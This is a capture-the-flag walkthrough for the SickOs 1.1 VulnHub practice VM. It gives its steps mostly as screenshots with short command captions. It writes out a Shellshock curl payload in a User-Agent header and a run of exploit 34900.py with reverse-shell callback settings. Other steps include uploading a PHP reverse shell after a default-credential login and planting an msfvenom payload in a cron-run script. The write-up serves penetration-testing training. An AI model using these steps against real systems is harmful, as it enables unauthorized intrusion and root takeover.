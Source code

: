 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to `ShellShock`

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> `Wolfcms` directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> got reverse shell

#### Visit /var/www/
![](Assets/9.png)

> `Wolfcms` directory and Read n Write permissions for `connect.py`

### Method 1: Using connect.py

#### Visit `cron.d`
![](Assets/10.png)

> Automated connect.py

#### Create payload with msfvenum 
![](Assets/11.png)

#### Echo payload to connect.py
![](Assets/12.png)

#### Nc -nvlp 7777
![](Assets/13.png)

> Got root

### Method 2: Using config.php

#### `Config.php`
![](Assets/14.png)

> Got password john@123

![](Assets/15.png)

> Got root

### Method 3: Using shellshock

#### Check if cmd works: curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"
![](Assets/16.png)

#### Searchsploit -m 34900.py
![](Assets/17.png)

> Downloaded shellshock exploit

#### Python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status
![](Assets/18.png)

> Got Reverse shell
> Repeat Method 2
> Get root
